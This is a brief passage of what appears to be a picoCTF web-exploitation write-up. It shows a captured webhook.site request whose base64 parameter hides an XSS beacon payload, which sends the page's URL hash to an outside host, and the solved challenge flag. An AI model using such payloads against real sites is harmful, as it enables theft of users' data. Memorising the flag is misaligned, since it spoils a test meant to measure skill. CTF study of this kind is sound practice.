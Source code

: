 
Then we got base64 request from webhook:
```https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJuZXcgUGVuZGluZ0dldEJlYWNvbignaHR0cHM6Ly93ZWJob29rLnNpdGUvMDllMTlmMTAtYTg4ZS00MDVjLWI2YzEtNDg3MGUwYzQ5N2Q1Lz9lPScgKyB3aW5kb3cubG9jYXRpb24uaGFzaC5zbGljZSgxKSwge3RpbWVvdXQ6IDEwMDB9KTsiLCJmbGFnIjoicGljb0NURntsaXR0bGVfYWxjaGVteV93YXNfdGhlXzBnX2dhbWVfZG9lc19hbnlvbmVfcmVtZW1iM3JfOTg4OWZkNGF9IGJ0dyBjb250YWN0IG1lIG9uIGRpc2NvcmQgd2l0aCB1ciBzb2x1dGlvbiB0aGFua3MgQGVoaHRoaW5nXG4ifQ==```

> picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}





 
















